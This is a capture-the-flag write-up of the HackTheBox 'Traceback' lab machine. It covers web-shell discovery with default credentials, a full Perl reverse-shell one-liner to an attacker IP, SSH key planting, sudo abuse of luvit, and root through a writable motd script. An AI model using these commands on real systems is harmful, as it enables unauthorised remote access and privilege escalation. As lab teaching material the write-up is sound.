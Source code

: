 ```yaml
---
title: Traceback Writeup - Machine
author: Sujit Suryawanshi
date: 2020-08-01 14:10:00 +0800
categories: [Writeup, HackTheBox]
tags: [hackthebox, htb, traceback]
---
```


<h3><strong><span style="color:#ff5555">Traceback - HackTheBox</span></strong></h3>

---

![Desktop View]({{ "/assets/img/htb-machines/traceback-main.png" | relative_url }})

---

<strong><span style="color:#ff5555">Introduction</span></strong>

---

Today I did Traceback box from HackTheBox.
It was nice box, CTF-like box in which the website has been hacked and placed one backdoor shell to access.
So the backdoor shell was the way to get initial shell and then need to get user by adding own ssh keys and then can go for Privilege Escalation to get root.

The box was using UpdateMotd which was running one custom script after a particular time. And the user had access to write into 00-header file which was executing.
Se lets move and Pwn this box.

**This blog is meant for educational purposes only.**

---

<strong><span style="color:#ff5555">Port & Service Enumeration</span></strong>

---

<p><code class="language-plaintext highlighter-rouge">root@kali:~sudo nmap -sC -sV -T4 10.10.10.181</code></p>

![Desktop View]({{ "/assets/img/htb-machines/blunder-nmap.png" | relative_url }})

We used -sC for Default Script, -sV Service Version Scan, -T4 for Timing.
As you can see there are two ports open that is port 22 and 80. Port 80 hosting web server which has Apache httpd 2.4.29 also the OS was Ubuntu, so we moved towards port 80 for further enumeration.

---

<strong><span style="color:#ff5555">Web Enumeration</span></strong>

---

After opening the website in browser, There was note from hacker who have defaced the site.

![Desktop View]({{ "/assets/img/htb-machines/traceback-website-defaced.png" | relative_url }})

Continuing to enumeration I checked the page source of website for comments and other juicy information.
Then I found one comment in HTML page of website.

![Desktop View]({{ "/assets/img/htb-machines/traceback-html-comment.png" | relative_url }})

After doing some web fuzzing using names of common backdoor shell, I found there was shell named "smevk.php" <http://10.10.10.181/smevk.php>

![Desktop View]({{ "/assets/img/htb-machines/traceback-ffuf.png" | relative_url }})

Visiting above url, Got login page of web shell.

![Desktop View]({{ "/assets/img/htb-machines/traceback-shell.png" | relative_url }})

I used default credentials as admin:admin to login into shell.

![Desktop View]({{ "/assets/img/htb-machines/traceback-shell-login.png" | relative_url }})

So here we got the access to backdoor shell and it's time to get full interactive shell.

---

<strong><span style="color:#ff5555">Initial Shell</span></strong>

---

Moving forward, I did some google for getting tty shell and got a tty shell using perl command given below.

```
perl -e 'use Socket;$i="10.10.14.167";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Then I used /usr/bin/script -qc /bin/bash /dev/null to make tty shell interactive.

Basically what this command does here -qc is script flag and -c means running a command instead of an interactive shell & -q means to be quiet as in not to print output through STDOUT.

Moving further, I found that machine has two users that is webadmin and sysadmin.

![Desktop View]({{ "/assets/img/htb-machines/traceback-users-list.png" | relative_url }})

As I had access of .ssh of folder I added my system's key in authorized_keys file so that I'll get access of this system using ssh.

![Desktop View]({{ "/assets/img/htb-machines/traceback-ssh-keys.png" | relative_url }})

After doing login by ssh I saw a weird message printed on screen.

![Desktop View]({{ "/assets/img/htb-machines/traceback-ssh-login.png" | relative_url }})

---

<strong><span style="color:#ff5555">Privilege Escalation: User</span></strong>

---

Anyway lets move further for sysadmin user.
While enumerating more, I found note.txt which contains,

![Desktop View]({{ "/assets/img/htb-machines/traceback-sysadmin-note.png" | relative_url }})

Checking sudo -l, I got that luvit was allowed to run as sudo with sysadmin user.

![Desktop View]({{ "/assets/img/htb-machines/traceback-luvit.png" | relative_url }})

So for Privilege Escalation and User flag I ran luvit with sudo and executed "/bin/bash" which gave me sysadmin.

![Desktop View]({{ "/assets/img/htb-machines/traceback-sysadmin-user.png" | relative_url }})

Next part in Privilege Escalation for root.

---

<strong><span style="color:#ff5555">Privilege Escalation: Root</span></strong>

---

So while enumerating for root, I saw one odd service like,

root       5660  0.0  0.0   4628   772 ?        Ss   17:48   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/

After checking out both directories which are given in above service, I found writable file under "/etc/update-motd.d/" directory named 00-header.

So this file was executing and printing some text on login of SSH.

![Desktop View]({{ "/assets/img/htb-machines/traceback-00-header.png" | relative_url }})

Also the file was writable by sysadmin user which we have already owned.

Then I read flag by appending my command in the 00-header file and re-logged in using SSH and got root.txt also


![Desktop View]({{ "/assets/img/htb-machines/traceback-root.png" | relative_url }})

![Desktop View]({{ "/assets/img/htb-machines/traceback-root-1.png" | relative_url }})


**Thanks for reading this writeup and all suggestions are welcome.**
